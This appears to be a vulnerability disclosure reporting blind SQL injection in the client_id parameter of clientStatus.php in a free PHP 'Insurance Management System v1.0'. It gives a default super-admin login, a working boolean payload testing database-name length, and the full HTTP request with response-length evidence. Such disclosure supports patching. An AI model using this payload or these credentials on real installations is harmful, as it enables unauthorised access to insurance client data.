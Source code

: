 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

Login account: ahmed/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability File: /insurance/clientStatus.php?client_id=

Vulnerability location:  /insurance/clientStatus.php?client_id=,client_id

[+] Payload: /insurance/clientStatus.php?client_id=1511986256%27%20and%20length(database())%20=4--+ // Leak place ---> client_id

Current database name: lims,length is 4

```sql
GET /insurance/clientStatus.php?client_id=1511986256%27%20and%20length(database())%20=4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 5429

![image](https://user-images.githubusercontent.com/54017627/166145039-bbea59e7-c63c-42df-8e03-7d94e414e764.png)

![image](https://user-images.githubusercontent.com/54017627/166145044-9dfbfbb9-632d-48dc-acc1-0977b6d77a80.png)

When length (database ()) = 4, Content-Length: 7588

![image](https://user-images.githubusercontent.com/54017627/166144999-3d5bcfe7-94aa-4bfa-8b53-eca704bdb7d0.png)

![image](https://user-images.githubusercontent.com/54017627/166145009-e99f4a3c-dae8-45ff-878b-ca60698e88aa.png)


